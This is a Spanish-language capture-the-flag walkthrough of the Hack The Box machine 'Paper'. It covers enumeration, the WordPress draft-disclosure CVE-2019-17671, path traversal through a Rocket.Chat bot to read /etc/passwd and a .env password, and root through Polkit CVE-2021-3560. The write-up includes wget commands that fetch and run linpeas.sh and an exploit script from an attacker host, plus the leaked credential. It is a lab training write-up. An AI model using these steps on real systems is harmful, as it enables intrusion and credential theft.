



# Paper

`Paper` es una máquina Linux sencilla que cuenta con un servidor Apache en los puertos 80 y 443, que sirven las versiones HTTP y HTTPS de un sitio web respectivamente. El sitio web en el puerto 80 devuelve una página web de servidor predeterminada, pero el encabezado de respuesta HTTP revela un dominio oculto. Este dominio oculto ejecuta un blog de WordPress, cuya versión es vulnerable a [CVE-2019-17671](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2). Esta vulnerabilidad nos permite ver la información confidencial almacenada en los borradores de las publicaciones del blog, que revelan otra URL que conduce a un sistema de chat para empleados. Este sistema de chat se basa en Rocketchat. Al leer los chats, descubrimos que hay un bot en ejecución al que se puede consultar información específica. Podemos explotar la funcionalidad del bot para obtener la contraseña de un usuario en el sistema. Una enumeración adicional de hosts revela que la versión sudo es vulnerable a [CVE-2021-3560](https://www.exploit-db.com/exploits/50011) y puede explotarse para elevar privilegios a root.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Paper**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.143 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-17 19:33 CET
Initiating SYN Stealth Scan at 19:33
Scanning 10.10.11.143 [65535 ports]
Discovered open port 80/tcp on 10.10.11.143
Discovered open port 443/tcp on 10.10.11.143
Discovered open port 22/tcp on 10.10.11.143
Completed SYN Stealth Scan at 19:33, 19.13s elapsed (65535 total ports)
Nmap scan report for 10.10.11.143
Host is up, received user-set (0.15s latency).
Scanned at 2025-02-17 19:33:26 CET for 19s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.25 seconds
           Raw packets sent: 66074 (2.907MB) | Rcvd: 66096 (2.645MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.143
	[*] Open ports: 22,80,443

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache`.

```bash
❯ nmap -sCV -p22,80,443 10.10.11.143 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-17 19:38 CET
Nmap scan report for office.paper (10.10.11.143)
Host is up (0.088s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: WordPress 5.2.3
|_http-title: Blunder Tiffin Inc. &#8211; The best paper company in the elec...
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: HTTP Server Test Page powered by CentOS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   107.25 ms 10.10.16.1
2   40.77 ms  office.paper (10.10.11.143)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.38 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos una comprobación de las tecnologías que son utilizadas en el sitio web.

```bash
❯ whatweb http://10.10.11.143/
http://10.10.11.143/ [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k], PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS], UncommonHeaders[x-backend-server], X-Backend[office.paper]
```

Accederemos a[ http://10.10.11.143 ](http://10.10.11.143)y nos encontramos con la siguiente página web que aparentemente no parece ofrecer nada relevante.

<figure><figcaption></figcaption></figure>

### Virtual Hosting

Revisamos las cabeceras de la página web, y nos encontramos en la cabecera `X-Backend-Server` el dominio `office.paper`. Esto parece indicar que existe un servidor con ese nombre de host.

```bash
❯ curl -I http://10.10.11.143
HTTP/1.1 403 Forbidden
Date: Mon, 17 Feb 2025 18:42:04 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
```

Añadiremos esta nueva entrada en el archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep office.paper
10.10.11.143 office.paper 
```

Realizaremos una comprobación de las tecnologías que son utilizadas en el sitio web, en este caso, parece que se trata de un `WordPress`.

```bash
❯ whatweb http://office.paper
http://office.paper [200 OK] Apache[2.4.37][mod_fcgid/2.3.9], Bootstrap[1,5.2.3], Country[RESERVED][ZZ], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], JQuery, MetaGenerator[WordPress 5.2.3], OpenSSL[1.1.1k], PHP[7.2.24], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Blunder Tiffin Inc. &#8211; The best paper company in the electric-city Scranton!], UncommonHeaders[link,x-backend-server], WordPress[5.2.3], X-Backend[office.paper], X-Powered-By[PHP/7.2.24]
```

Accederemos a http://office.paper y nos encontramos con la siguiente página web en la cual se nos presenta el CMS de `WordPress` en una versión **5.2.3**.

<figure><figcaption></figcaption></figure>

Encontramos una publicación en el blog de WordPress con el título **"Feeling Alone!"**, escrita por el usuario `Prisonmike`. En ella, menciona que eliminó a otros usuarios del blog y que ahora solo queda su cuenta.

En los comentarios, otro usuario `Nick` le advierte que debería eliminar "contenido secreto" de sus borradores, ya que no son tan seguros como él cree.

Esto sugiere que los borradores podrían contener información sensible. Como siguiente paso, intentaremos acceder a ellos o buscar credenciales que nos permitan entrar al panel de administración.

<figure><figcaption></figcaption></figure>

### Subdomain Enumeration

Realizaremos también una enumeración de subdominios de la página web. En el resultado obtenido, comprobamos la existencia del subdominio `chat.office.paper`.

```bash
❯ wfuzz --hh=199691 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.office.paper" http://office.paper 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://office.paper/
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                             
=====================================================================

000000329:   200        507 L    13015 W    223163 Ch   "chat"  
```

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep office.paper
10.10.11.143 office.paper chat.office.paper
```

Accederemos a esta nueva página web, y nos encontramos con la interfaz de `rocket.chat` que nos requiere proporcionar credenciales que actualmente no disponemos.


Rocket. Chat es una plataforma de comunicaciones de código abierto personalizable para organizaciones con altos estándares de protección de datos. Permite conversaciones en tiempo real entre colegas, con otras empresas o con sus clientes, en dispositivos web, de escritorio o móviles.


<figure><figcaption></figcaption></figure>

## Initial Access

### WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts (CVE-2019-17671)

A través de `searchsploit`, verificaremos posibles vulnerabilidades conocidas para la versión de `WordPress` que dispone la página web.&#x20;

El resultado mostró varias vulnerabilidades, destacando una en particular:

> **WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts**

Esta vulnerabilidad permite visualizar posts privados, protegidos por contraseña o en borrador sin autenticación.

Recordando el comentario de `Nick` en el blog, donde advertía a `Prisonmike` sobre la presencia de "contenido secreto" en sus borradores, esta vulnerabilidad podría permitirnos acceder a información sensible si logramos explotarla.

Como siguiente paso, intentaremos reproducir la explotación de esta vulnerabilidad para ver si es posible acceder a los borradores y extraer información útil.

```bash
❯ searchsploit WordPress 5.2.3

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                     |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
NEX-Forms WordPress plugin < 7.9.7 - Authenticated SQLi                                                                                                                                            | php/webapps/51042.txt
WordPress Core 5.2.3 - Cross-Site Host Modification                                                                                                                                                | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                                                                            | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                                                                            | php/dos/47800.py
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                                                                                                | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                                                                                                                                          | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                                                                                                                                        | php/webapps/48918.sh
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

La vulnerabilidad reportada, es identificada mediante el siguiente `CVE-2019-17671`.




En WordPress anterior a 5.2.4, es posible la visualización no autenticada de cierto contenido porque la propiedad de consulta estática es manejada inapropiadamente.


Realizamos una búsqueda en `WPScan` para verificar la existencia de la vulnerabilidad y del PoC, y nos encontramos con la prueba de concepto para explotar esta vulnerabilidad.



<figure><figcaption></figcaption></figure>

Al acceder a los borradores, encontramos que los empleados fueron removidos del blog y migrados a un **nuevo sistema de chat privado**. Además, se descubrió una **URL de registro** para este sistema:

> [http://chat.offce.paper/register/8qozr226AhkCHZdyY](http://chat.offce.paper/register/8qozr226AhkCHZdyY)

Este enlace podría permitirnos acceder al chat y obtener más información interna. Como siguiente paso, exploraremos este sistema en busca de credenciales o datos sensibles.

<figure><figcaption></figcaption></figure>

Accederemos a [http://chat.offce.paper/register/8qozr226AhkCHZdyY](http://chat.offce.paper/register/8qozr226AhkCHZdyY) y probaremos de registrarnos como un nuevo usuario.

<figure><figcaption></figcaption></figure>

Especificaremos nuestro nombre de usuario para finalizar el registro.

<figure><figcaption></figcaption></figure>

Al acceder finalmente al `rocket.chat`, verificamos que pasado un tiempo se nos añade a un canal de grupo llamado `general` en el cual parecen estar los empleados de la empresa.

<figure><figcaption></figcaption></figure>

### Abusing Rocket Chat Bot

Dentro del sistema de chat, encontramos un bot llamado **Recvclops**, aparentemente desarrollado por _Dwight_ para responder preguntas frecuentes de los empleados. Sin embargo, lo más interesante es que **el bot tiene acceso a archivos y directorios en la carpeta "Sales"**, lo que podría representar una vulnerabilidad si se puede interactuar con él de manera controlada.

**Funcionalidades del bot:**

* **Conversación básica:** Puede responder preguntas generales sobre _Dwight_.
* **Chistes predefinidos:** Responde preguntas específicas relacionadas con vendedores.
* **Acceso a archivos:** Permite solicitar el contenido de archivos dentro del directorio _Sales_.
* **Listado de archivos:** Puede enumerar los archivos disponibles en el directorio _Sales_.
* **Consulta de hora:** Devuelve la hora actual.

Esto es particularmente interesante, ya que sugiere que el bot tiene **permisos de lectura sobre archivos internos** y puede actuar como un canal no autorizado para obtener información del sistema. Como siguiente paso, intentaremos interactuar con el bot para extraer archivos sensibles.

<figure><figcaption></figcaption></figure>

El siguiente paso, fue interactuar con el `chatbot`, en el cual mediante el comando `help` nos indicaba el listado de los comandos que podíamos utilizar.

<figure><figcaption></figcaption></figure>

Dado que el chatbot **Recvclops** tiene acceso a archivos en el directorio _Sales_, probamos sus funcionalidades de listado y lectura de archivos.

1. **Listar archivos:**
   * Ejecutamos `recyclops list sales` y obtuvimos un listado del directorio _Sales_, lo que sugiere que el bot ejecuta un comando similar a `ls`.
2. **Leer archivos:**
   * Intentamos `recyclops file portfolio.txt`, un archivo que identificamos en el listado anterior.
   * El bot indica que usa un comando equivalente a `cat`, pero en este caso no logramos visualizar el contenido del archivo.

Este comportamiento confirma que el chatbot tiene permisos de lectura en _Sales_ y podría ser explotado para obtener información sensible. Como siguiente paso, probaremos si hay restricciones o formas de evadirlas.

<figure><figcaption></figcaption></figure>

Tras confirmar que el chatbot ejecuta comandos en el sistema, intentamos inyectar instrucciones adicionales utilizando operadores como `&&` y `;`. Sin embargo, al hacerlo, recibimos el siguiente mensaje de error:

> **"Stop injecting OS commands!"**

Esto indica que el bot tiene alguna validación para detectar intentos de ejecución de comandos arbitrarios. Como siguiente paso, evaluaremos si hay formas de evadir esta restricción o si podemos manipular la solicitud de otra manera para obtener ejecución de comandos en el sistema.

<figure><figcaption></figcaption></figure>

Tras confirmar que el chatbot ejecuta comandos en el sistema, intentamos acceder a archivos fuera del directorio _Sales_ utilizando secuencias de `../` para movernos en la estructura de directorios.

* Al ejecutar `recyclops file ../../../etc/passwd`, logramos que el bot nos devolviera el contenido del archivo `/etc/passwd`.
* Esto confirma que podemos leer archivos arbitrarios en el sistema, funcionando como una vulnerabilidad de **Local File Inclusion (LFI)**.

Este hallazgo nos brinda una vía potencial para obtener credenciales, configuraciones sensibles o incluso identificar usuarios con acceso al sistema. Como siguiente paso, intentaremos leer otros archivos críticos que puedan ayudarnos a escalar privilegios o comprometer el sistema.

<figure><figcaption></figcaption></figure>

Tras confirmar que podíamos leer archivos arbitrarios con `recyclops file`, intentamos aprovechar el comando `recyclops list` para explorar otros directorios:

* **Ejecutamos** `recyclops list ../`, lo que nos permitió listar el contenido de `/home/dwight`. Dentro de este directorio, identificamos la presencia del archivo `user.txt`.
* **Intentamos leerlo con** `recyclops file ../user.txt`, pero el bot devolvió un error de **"Access Denied"**, indicando que hay restricciones de permisos sobre ciertos archivos.

Ahora que tenemos la capacidad de listar directorios y leer archivos arbitrarios en el sistema, exploraremos otras ubicaciones clave en busca de información sensible o credenciales que nos permitan avanzar en la explotación.

<figure><figcaption></figcaption></figure>

Continuamos explorando el sistema utilizando `recyclops list` para identificar archivos de interés.

* **Ejecutamos** `recyclops list ../hubot`, lo que nos permitió listar el contenido del directorio `hubot`.
* **Encontramos un archivo** `.env`, que es comúnmente utilizado para almacenar variables de entorno, incluyendo credenciales, claves API y configuraciones sensibles.

Dado que ya hemos demostrado la capacidad de leer archivos arbitrarios, intentaremos acceder al contenido de `.env` para buscar información que nos ayude a escalar privilegios o comprometer otros servicios en el sistema.

<figure><figcaption></figcaption></figure>

Al ejecutar `recyclops file ../hubot/.env`, logramos leer el contenido del archivo y encontramos información sensible:

* **Credenciales del usuario** `recyclops`
  * `rocketchat_user=recyclops`
  * `rocketchat_passwd=Queenofblad3s!23`

Estas credenciales podrían permitirnos acceder a Rocket.Chat con el usuario `recyclops`, lo que abre la posibilidad de obtener más información, interactuar con otros usuarios o incluso buscar vulnerabilidades dentro del sistema de mensajería. Procederemos a probarlas para evaluar su alcance.

<figure><figcaption></figcaption></figure>

Accederemos a http://chat.office.paper y probaremos de autenticarnos con las credenciales del usuario `recyclops` encontradas en el archivo anterior.

<figure><figcaption></figcaption></figure>

Al intentar iniciar sesión en Rocket.Chat con las credenciales obtenidas (`recyclops:Queenofblad3s!23`), nos encontramos con un mensaje de advertencia:

> **"Nice Try Skynet! Bots are not allowed to login via Web Console!"**

Este mensaje indica que el usuario `recyclops` está configurado como un bot y tiene restricciones para autenticarse a través de la interfaz web

<figure><figcaption></figcaption></figure>

Al aceptar el mensaje anterior, se nos muestra el acceso de `recyclops` en el `rocket.chat`, en el cual podemos localizar el chat que tiene abierto con nosotros y con otros usuarios, pero no conseguimos disponer de acceso, ya que inmediatamente se cerraba la sesión.

<figure><figcaption></figcaption></figure>

Dado que el usuario que creó este `chatbot` era el usuario `dwight` y dado que nos encontrábamos en su directorio con el chat, probaremos de autenticarnos al `SSH`.

Verificamos que finalmente logramos obtener el acceso al sistema y logramos visualizar la flag **user.txt**.

```bash
❯ ssh dwight@office.paper
dwight@office.paper's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ cat user.txt 
7f6d8b3de4**********************
```

## Privilege Escalation

### Basic Enumeration

Realizaremos una verificación inicial de los privilegios que dispone el usuario actual. Verificamos que no disponemos de algún grupo interesante ni permisos de `sudoers`.

Por otro lado, también revisamos binarios con permisos de `SUID` pero no logramos obtener nada interesante.

```bash
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
[dwight@paper ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dwight: 
Sorry, user dwight may not run sudo on paper.
[dwight@paper ~]$ find / -perm -4000 2>/dev/null
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/fusermount3
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/userhelper
/usr/sbin/mount.nfs
```

### Polkit (CVE-2021-3560)

Realizaremos una enumeración con `linpeas.sh`, este script que se encarga de realizar una enumeración del sistema Linux lo deberemos de disponer en nuestro equipo local.

Compartiremos el script mediante un servidor web.

```bash
❯ ls -l linpeas.sh
.rw-r--r-- kali kali 806 KB Sun Feb 16 03:40:22 2025  linpeas.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el script y le daremos los permisos de ejecución correspondientes.

```bash
[dwight@paper tmp]$ wget 10.10.16.3/linpeas.sh; chmod +x linpeas.sh
--2025-02-17 14:12:16--  http://10.10.16.3/linpeas.sh
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                                                100%[==================================================================================================================================>] 805.61K   795KB/s    in 1.0s    

2025-02-17 14:12:17 (795 KB/s) - 'linpeas.sh' saved [824942/824942]
```

En el resultado obtenido de la enumeración con `linpeas.sh`, nos encontramos que la versión de `sudo` parece ser vulnerable ya que se nos recalca en rojo.

<figure><figcaption></figcaption></figure>

Por otro lado, en el escaneo con `linpeas.sh` se nos muestra que es vulnerable al siguiente `CVE-2021-3560`.

<figure><figcaption></figcaption></figure>




Se descubrió que se podía engañar a polkit para que pasara por alto las comprobaciones de credenciales de las solicitudes de D-Bus, elevando los privilegios del solicitante al usuario root. Esta falla podría ser utilizada por un atacante local sin privilegios para, por ejemplo, crear un nuevo administrador local. La mayor amenaza de esta vulnerabilidad es para la confidencialidad e integridad de los datos, así como para la disponibilidad del sistema.


Verificaremos también la versión exacta de `sudo` a través de los siguientes comandos.

```bash
[dwight@paper tmp]$ which sudo
/usr/bin/sudo
[dwight@paper tmp]$ /usr/bin/sudo --version
Sudo version 1.8.29
Sudoers policy plugin version 1.8.29
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.29
```

Realizando una búsqueda del exploit. nos encontramos con el repositorio del creador de la máquina `Paper` en el cual nos ofrecen un script en `Bash` que realiza la explotación de `Polkit`.

Nos descargaremos el script `poc.sh`mediante el siguiente comando y lo compartiremos a través de un servidor web.



```bash
❯ wget https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/refs/heads/main/poc.sh
--2025-02-19 08:26:56--  https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/refs/heads/main/poc.sh
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 9627 (9,4K) [text/plain]
Grabando a: «poc.sh»

poc.sh                                                    100%[==================================================================================================================================>]   9,40K  --.-KB/s    en 0s      

2025-02-19 08:26:56 (70,8 MB/s) - «poc.sh» guardado [9627/9627]

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Desde el equipo vulnerable, nos descargaremos el script de `poc.sh` que estamos compartiendo y le proporcionaremos los permisos de ejecución.

```bash
[dwight@paper tmp]$ wget 10.10.16.3/poc.sh; chmod +x poc.sh
--2025-02-18 18:50:39--  http://10.10.16.3/poc.sh
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9627 (9.4K) [text/x-sh]
Saving to: 'poc.sh'

poc.sh                                                    100%[==================================================================================================================================>]   9.40K  --.-KB/s    in 0.02s   

2025-02-18 18:50:39 (463 KB/s) - 'poc.sh' saved [9627/9627]
```

Realizaremos la explotación de la vulnerabilidad. Esta script básicamente lo que realiza finalmente es crear un usuario que tenga privilegios para posteriormente convertirnos en usuario `root`.

Probablemente deberemos de repetir el proceso varias veces, ya que no suele funcionar a la primera. A continuación, se muestra que se ha creado el usuario`secnigma` correctamente y al acceder con su usuario y ejecutar un `sudo bash`, finalmente logramos obtener acceso como `root` y visualizar la flag **root.txt**

```bash
[dwight@paper tmp]$ ./poc.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper tmp]$ su secnigma
Password: 
[secnigma@paper tmp]$ sudo bash
[sudo] password for secnigma: 
[root@paper tmp]# cat /root/root.txt 
22ed53fa2**********************
```
